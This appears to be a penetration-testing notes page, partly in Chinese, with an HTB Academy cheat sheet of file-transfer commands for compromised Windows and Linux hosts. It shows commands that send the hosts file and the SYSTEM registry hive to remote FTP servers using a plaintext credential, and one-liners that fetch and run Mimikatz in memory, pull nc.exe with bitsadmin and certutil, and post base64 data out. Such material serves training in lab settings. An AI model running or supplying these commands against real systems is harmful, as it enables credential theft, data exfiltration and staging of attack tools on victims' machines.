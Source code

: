 ```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
在一个非交互式的shell。需要创建一个FTP命令文件来下载文件。
```text
ftp -v -n -s:ftpcommand.txt

echo open 10.10.199.147 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt   #echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt --> upload
echo bye >> ftpcommand.txt

open 10.10.199.147
 USER web_svc Diamond1
 binary
 PUT C:\windows.old\Windows\System32\SYSTEM .\temp\SYSTEM
 bye
```

# Cheat Sheet --- HTB Academy
| Command                                                                                                          |                                 Description |
| :--------------------------------------------------------------------------------------------------------------- | ------------------------------------------: |
| Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1                                            |             Download a file with PowerShell |
| IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')                              |   Execute a file in memory using PowerShell |
| Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64                                            |               Upload a file with PowerShell |
| bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe                                                   |             Download a file using Bitsadmin |
| certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe                                                      |              Download a file using Certutil |
| wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh                   |                  Download a file using Wget |
| curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh                   |                  Download a file using cURL |
| `php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`        |                   Download a file using PHP |
| scp C:\\Temp\\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip                                               |                     Upload a file using SCP |
| scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe                                                           |                   Download a file using SCP |
| Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe" | Invoke-WebRequest using a Chrome User Agent |

